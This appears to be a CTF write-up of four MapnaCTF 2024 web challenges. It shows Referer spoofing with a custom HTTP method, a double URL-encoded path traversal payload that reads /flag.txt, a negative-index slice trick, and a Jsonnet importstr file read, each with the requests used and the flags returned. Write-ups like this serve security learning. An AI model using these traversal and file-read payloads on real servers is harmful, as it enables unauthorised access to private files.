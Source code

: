 ```yaml
---
title: MapnaCTF 2024 web challenges
date: 2024-01-21
tags: 
- web
- author-hartmannsyg
categories: MapnaCTF 2024
---
```


solved by {% person hartmannsyg %}

## Flag Holding

We are given a website:
{% ccb terminal:true %}
http://18.184.219.56:8080/
{% endccb %}

![You are not coming from "http://flagland.internal/".](/static/MapnaCTF2024/flag_holding.png)

We then set the Referer header to http://flagland.internal/:

{% ccb terminal:true lang:http %}
Referer: http://flagland.internal/
{% endccb %}
```html
	<div class="msg" style="">
		Unspecified "secret".	</div>
```

We create a url parameter called `secret`: http://18.184.219.56:8080?secret=

{% ccb lang:html gutter1:1,2, wrapped:true %}
<div class="msg" style="">
		Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->	</div>
{% endccb %}

the protocol is http, so http://18.184.219.56:8080?secret=http with the header gives us:

```html
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".	</div>
```

We have to use a custom http method `FLAG` instead of `GET`:

```html
	<div class="msg" style="">
		MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}	</div>
```

(btw I used https://hoppscotch.io/ for all this since that way I don't have to code out things)

## Novel Reader

We see that there is a `/read` function:

```http
GET /api/read/public/A-Happy-Tale.txt HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en
Connection: keep-alive
Cookie: session=eyJjcmVkaXQiOjEwMCwid29yZHNfYmFsYW5jZSI6MX0.Za000Q.zcBtJvYM3vXoJBf_o6j8gd_g9n4
Host: 3.64.250.135:9000
Referer: http://3.64.250.135:9000/
Sec-GPC: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

We want to read /flag.txt, but our `/read` call must evaluate to a `/public` directory (or at least it must start with `/public`):
{% ccb lang:py gutter1:43-50 caption:main.py highlight:4 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

So instead of doing `http://3.64.250.135:9000/api/read/public/../../../../flag.txt`, we can *double url encode* the `../` to become `%252e%252e%252f`

{% ccb lang:http wrapped:true %}
GET /api/read/public/%252e%252e%252f%252e%252e%252fflag.txt HTTP/1.1
{% endccb %}
{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

## Novel Reader 2

We can use the same double url encoding trick to read `A-Secret-Tale.txt`, but we seem to not have enough words, even when we charge the number of words to 11 (remember to update the Cookie header if you are writing code to send the request)

{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

We look at the specific line of code that is blocking us from accessing the flag:

{% ccb lang:py gutter1:43-50 caption:main.py highlight:7 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

Normally, what this would do is trim the `buf` to only include words `0` to `session['words_balance']`.

However, python allows for negative indexing as well, where `-1` represents the last element:

```py
>>> a='0123456789'
>>> a[0:-1]
'012345678'
```

So if we deduct and deduct until our `words_balance` is `-1`, we get:

![Words Balance: -1](/static/MapnaCTF2024/novel_reader.png)

{% ccb lang:json wrapped:true gutter1:1,2,,3,4 %}
{
  "msg": "Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!",
  "success": true
}
{% endccb %}

(remember to update the Cookie header if you are writing code to send the request)

## Advanced JSON Cutifier

> My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting.
> **Important: You can't read any file other than /flag.txt on the remote environment.**

![](/static/MapnaCTF2024/advanced_json_cutifier.png)

we see that `1335+2` gets evaluated to `1337`. So it is probably something like a template injection? After a bit of fiddling (actually like half a day worth of fiddling), I tried:
```json
{"wow so advanced!!": import "os"}
```
and got:
```json
RUNTIME ERROR: couldn't open import "os": no match locally or in the Jsonnet library paths
	ctf:1:23-34	object <anonymous>
	Field "wow so advanced!!"	
	During manifestation	
```
We *finally* got the name of the library (Jsonnet). I then searched up how to read file contents using Jsonnet and got this github issue: https://github.com/google/jsonnet/issues/238

In there, they said something like:
```
std.assertEqual(importstr "lib/some_file.txt", "Hello World!\n") && 
```

So I tried importstr
```json
{"wow so advanced!!": importstr "flag.txt"}
```
and got
```json
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```